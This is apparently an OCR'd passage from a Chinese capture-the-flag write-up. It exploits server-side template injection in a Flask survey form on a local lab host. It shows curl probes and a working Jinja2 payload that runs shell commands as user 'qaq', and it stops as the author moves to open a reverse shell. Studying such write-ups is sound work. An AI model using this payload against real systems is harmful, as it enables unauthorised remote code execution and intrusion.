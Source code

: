 ```bash
    /* ... CSS styles ... */
</style>
</head>
        <body>
            <div class="container">
                <h1>SurveyMaster</h1>
                <p>提交你的问卷，分享你的想法！</p>
                <form action="/submit" method="POST">
                    <input type="text" name="username" placeholder="你的名字" required>
                    <input type="text" name="question" placeholder="问卷问题" required>
                    <textarea name="answer" placeholder="你的答案" required></textarea>
                    <input type="submit" value="提交问卷">
                </form>
            </div>
        </body>
    </html>
```
是个问卷提交页面。Flask应用，常用的模板引擎是Jinja2，这就有SSTI的可能了。
尝试在POST请求的各个参数 (`username`, `question`, `answer`) 中插入 `{{7*7}}` 来测试SSTI。

```bash
www-data@eeeeeasy:/opt$ sh # 切换到sh方便多次执行curl
$ curl -X POST -d "username={{7*7}}&question=test&answer=test" http://127.0.0.1:5000/submit
# ... (输出显示用户名为 {{7*7}}，没有 SSTI) ...
$ curl -X POST -d "username=test&question={{7*7}}&answer=test" http://127.0.0.1:5000/submit
# ... (输出显示问题为 {{7*7}}，没有 SSTI) ...
$ curl -X POST -d "username=test&question=test&answer={{7*7}}" http://127.0.0.1:5000/submit

        <html>
            <head><title>SurveyMaster - 问卷提交</title>
            <!-- ... CSS ... -->
            </head>
            <body>
                <div class="container">
                    <h1>问卷提交成功</h1>
                    <p>提交者: test</p>
                    <p>问题: test</p>
                    <p>答案: 49</p>  <!-- bingo！ -->
                    <p><a href="/preview/test">查看你的问卷</a> | <a href="/">继续填写</a></p>
                </div>
            </body>
        </html>
```
漂亮！当`answer`字段的值是 `{{7*7}}` 时，返回的页面中答案显示为 `49`。这明确地证明了 `answer` 字段存在SSTI漏洞！

构造SSTI payload来执行命令，获取`qaq`用户的权限。
```bash
$ curl -X POST -d "username=test&question=test&answer={{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}" http://127.0.0.1:5000/submit

        <html>
            <!-- ... HTML structure ... -->
            <body>
                <div class="container">
                    <h1>问卷提交成功</h1>
                    <p>提交者: test</p>
                    <p>问题: test</p>
                    <p>答案: uid=1001(qaq) gid=1001(qaq) groups=1001(qaq)  # <--- 命令执行成功！
</p>
                    <p><a href="/preview/test">查看你的问卷</a> | <a href="/">继续填写</a></p>
                </div>
            </body>
        </html>
```
成功以`qaq`用户身份执行了`id`命令。现在，弹个`qaq`用户的shell回来。